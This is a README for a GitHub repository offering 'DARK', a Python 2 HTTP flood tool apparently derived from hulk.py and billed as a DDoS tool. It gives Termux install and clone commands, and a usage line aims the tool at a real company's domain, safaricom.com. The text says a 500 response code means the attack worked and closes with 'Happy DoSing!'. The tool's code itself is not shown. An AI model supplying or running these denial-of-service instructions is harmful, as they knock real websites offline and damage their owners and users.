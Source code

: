 ## DARK - http cl13nt 0v3rl0ad

Subscribe to my YT channel KrakinzLab
Link:- 

This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"
chmod +x hulk.py

Usage:- 
Install termux from Fdroid / Playstore

```sh
apt update && apt upgrade
pkg install python 2
git clone https://github.com/krakinz/dark.git
cd dark
chmod +x dark.py
python2 dark.py "link"

Example:- python2 dark.py safaricom.com
```
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------

<img href="https://image_source/file.png/jpg">
